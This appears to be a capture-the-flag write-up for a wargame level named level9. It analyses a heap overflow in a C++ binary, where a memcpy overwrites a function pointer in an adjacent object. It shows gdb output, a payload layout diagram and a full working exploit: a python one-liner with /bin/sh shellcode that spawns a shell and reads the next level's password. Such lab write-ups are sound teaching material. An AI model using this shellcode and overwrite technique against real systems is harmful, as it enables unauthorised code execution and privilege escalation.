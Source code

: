 # Level 9

## Analysis

First thing we noticed from the decomp/gdb output, is that this program was compiled from c++ and not c. We have a class `N` with some methods, mostly one which seems interesting: `N::SetAnnotation(N *this, char *param1)` which uses a `memcpy()`.

`N` contains an `int` member. `SetAnnotation()` copies the argument we pass to our program into this member.
The last interesting part is this piece of code ad the end of the main:

```bash
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax      
   0x08048680 <+140>:	mov    (%eax),%eax          
   0x08048682 <+142>:	mov    (%eax),%edx          
   0x08048684 <+144>:	mov    0x14(%esp),%eax      
   0x08048688 <+148>:	mov    %eax,0x4(%esp)        
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
```

This calls a function set in `*edx`. If we take a look at the [decomp](./resources/level9_decomp.c), it is a pointer to function stored in `this_00` (or `n2` as we will call it later).
Other than that, no call to any shell spawn, so we need to call a shellcode somewhere.
Both `N` instances are allocated using `operator new(0x6c)` which means each object is 108 bytes.

Our user input is copied into the first `N` ("n1") which is allocated before the second object "n2".

Our input is copied at `n1+4`, if we write 108 bytes of data, we will instead write at `n2+4`. Which would allow us to overwrite the function pointer stored in `n2+4`.

## Exploit

<details>
    <summary>
        spoilers
    </summary>
We run gdb with "AAAA" as an argument.

If we set a bp at `main+136` (just after the `SetAnnotation()`) we can get the following:

```bash
(gdb) x/x $eax
0x804a00c:	0x61616161
```

`eax` contains the memcpy destination.

This means that `0x804a00c` is the address which contains our input. If we write some code execution in our buffer, we can then pass this address to `n2+4` to replace its function pointer so that the code can get executed later. However, the `call *edx` executes the code written at the address of `n2+4`, which means that we cannot begin this payload with the shellcode bytes (else it will try to execute the content of the address formed by the first 4bytes of our shellcode).

This is why we will use a pointer to the beginning of our shellcode instead as the first 4 bytes:

```
[addr of beginning + 4] + [shellcode] + [padding] + [addr of buffer]
         ^     |               ^                          |
         |     └---------------┘                          |
         └------------------------------------------------┘
```

</details>

## Payload

<details>
    <summary>Spoilers</summary>
What we need:

- (4 bytes) Buffer addr (`eax`) => `0x804a00c`
- (21bytes) Shellcode
- (4 bytes) Offset addr (pointer) => `0x804a00c + 4 = 0x804a010`
- (83bytes) Padding = `108 - (4 + 4 + 21)`

Now, the only thing left to do is to craft it:

```bash
level9@RainFall:~$ `python -c 'print"\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 83 + "\x0c\xa0\x04\x08"' > /var/crash/test.txt`
level9@RainFall:~$ t=$(</var/crash/test.txt)                                                                                                                                                           
level9@RainFall:~$ ./level9 $t                                                                                                                                                                         
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$ 
```
</details>


<!-- `\x0c\xa0\x04\x08` = pointeur vers le début de notre shellcode `\x10\xa0\x04\x08\x6a\x0b....`

Le probleme c'est que quand ça call `EDX (main+152)`, il s'attend a trouver une addresse sur la quel jump, si on met un shellcode classique il va prendre les 4 premier char du shellcode et jump dessu ce qui donne une addresse invalide
Pour fix ça devant notre shellcode on a ajouté `x10\xa0\x04\x08` qui est l'addresse qui pointe sur le début de notre shellcode `(\x0c\xa0\x04\x08) + 4`

PS : ca marche pas quand on met l'addrese de esp (de la fonction ou y a le memcy) au début du shellcode (0xbffff680), car ça crée le probleme inverse cette fois
Le programme prend bffff680, jump dessus il trouve 0x0804a00c (le pointeur vers le début de notre shellcode) qu'il prend comme une instruction et ça pete.

Dans un cas on avais besoin d'un pointeur pour que le programme jump dessus
Dans le deuxieme on a un pointeur en trop qui est lu comme une instruction -->
